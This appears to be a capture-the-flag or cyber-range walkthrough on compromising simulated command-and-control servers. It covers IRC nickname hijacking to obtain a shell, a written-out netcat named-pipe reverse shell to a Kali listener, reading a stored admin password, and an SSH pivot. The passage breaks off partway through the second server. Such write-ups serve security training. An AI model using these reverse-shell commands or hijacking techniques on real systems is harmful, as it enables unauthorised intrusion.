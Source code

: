
## Accessing C2 servers

Assuming Network Enumeration is completed....

### Accessing Generator1 using IRC connection to CC1 (Command and Control 1 w/ Shield Generator, )

The IP of this C2 server is `44.106.35.11`

You've discovered IRC traffic as well as hosts using the IRC service. From this information, you should be able to pull some information regarding the user.
You should discover the IRC Nickname `xray` being used by one of the hosts on the `user` net. 
You will then need to ether steal the accepted Nickname when the user is `offline` or monitor plaintext IRC traffic to discover automated service granting xray shell access via IRC.

Log in to irc.us
/list, then /join #shieldGen
if the search window is empty, adjust parameters to show channels with 1 to 9999 users
Watch user activity, note several user accounts join and leave at regular intervals
Steal a nick when user is offline (any will work, using alpha as an example): /nick alpha
Wait for a private message from a user with nick ircbox-?????? (where ? is a digit)
This message grants a shell on CC1, but it is limited. For a better shell, issue these commands:
Open a terminal on Kali and run: nc -lvp 4444
In IRC, send the ircbox-?????? user: mknod /tmp/backpipe p
In IRC, send the ircbox-?????? user: /bin/sh 0</tmp/backpipe | nc kali-workstation-ip 4444 1>/tmp/backpipe
Your terminal will now be a shell on CC1 with more capabilities, better speed, and less likelihood of getting booted than the IRC shell
First, cat mythic_admin_password.txt and note the contents (it should be tartanstartans). You will need this for Generator 3.
Use ip addr to see the network interfaces and assigned IP addresses. Note that one address has a /30 subnet mask. This means there can be only ONE other address in that subnet: 100.99.98.130
Note also that the .ssh/known_hosts file is not empty.
ssh 100.99.98.130

You are now logged in to Generator1. Disable the `shieldGeneration` service using any of the methods mentioned above.

###  Accessing Generator2 by gaining access to TCP Server on CC2 (Command and Control 2 w/ Shield Generator)

The IP of this C2 server is `44.2.22.75`

If you run an `nmap` scan against the C2 server, you should find some useful information. You should discover:
 - The C2 server has a open listening socket located on port `55555`.
 - That it is running an FTP server.

If you analyze the traffic, you will find that there is one machine connecting to the port found above and is sending a message using a specific format and contains specific keys that need to follow a format in order to 
be accepted. Also you will find that there is various FTP traffic going to that C2 server as well, although you will not be able to connect to it using any credentials found in packet capture.
